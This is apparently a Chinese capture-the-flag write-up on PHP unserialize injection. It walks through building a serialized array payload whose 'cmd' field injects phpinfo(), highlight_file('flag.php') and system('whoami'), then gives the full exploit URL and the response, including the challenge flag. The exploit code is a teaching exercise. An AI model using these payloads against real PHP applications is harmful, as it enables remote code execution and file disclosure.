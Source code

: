 服务器错误？经过排查，发现 `echo unserialize($_GET['ag']);`在反序列化后，直接输出导致错误。
我们得好好研究一波`unserialize($_GET['ag']);`结果是何方神圣！

```php
// class flag略，同上
$obj = unserialize($_GET['ag']);
echo gettype($obj);
echo "<br>";
echo unserialize($_GET['ag']);
```
传入刚刚的`ag`，输出结果如下：

---
object<br>
<b>Catchable fatal error</b>:  Object of class flag could not be converted to string in <b>xxx.php</b> on line <b>xx</b><br />

---

分析可以得到：`unserialize`后的变量类型为`object`，而 `echo`不能直接输出未实现`__toString`方法的 `object`变量。但是我们无法去更改后台源码！
我们可以灵活调整一下：找一种`echo`可以输出的东西，并且这个东西可以携带对象。我能想到的是`Array`，键名随机，value值弄成对象即可。把该`Array`进行序列化。

```php
// class flag略，同上
$obj = new flag();
$obj->cmd='1";phpinfo();highlight_file("flag.php");system("whoami");"';
echo serialize(array(
    'a' => $obj
));
echo '<br>';
// echo unserialize($_GET['a']);
```

得到Array序列化后的字符串

```
a:1:{s:1:"a";O:4:"flag":1:{s:3:"cmd";s:58:"1";phpinfo();highlight_file("flag.php");system("whoami");"";}}$a="1";phpinfo();highlight_file("flag.php");system("whoami");""; 
```


综上payload如下：
```
http://39.105.168.42:8001/?fl=a(&ag=a:1:{s:1:"a";O:4:"flag":1:{s:3:"cmd";s:58:"1";phpinfo();highlight_file("flag.php");system("whoami");"";}}$a="1";phpinfo();highlight_file("flag.php");system("whoami");""; 
```

除去`phpinfo();`外的 响应 为
```php
Array 
<?php
echo 'What do you think???';
//flag is moectf{unseri@lse-is-vEry-E@3y} 
www-data
```

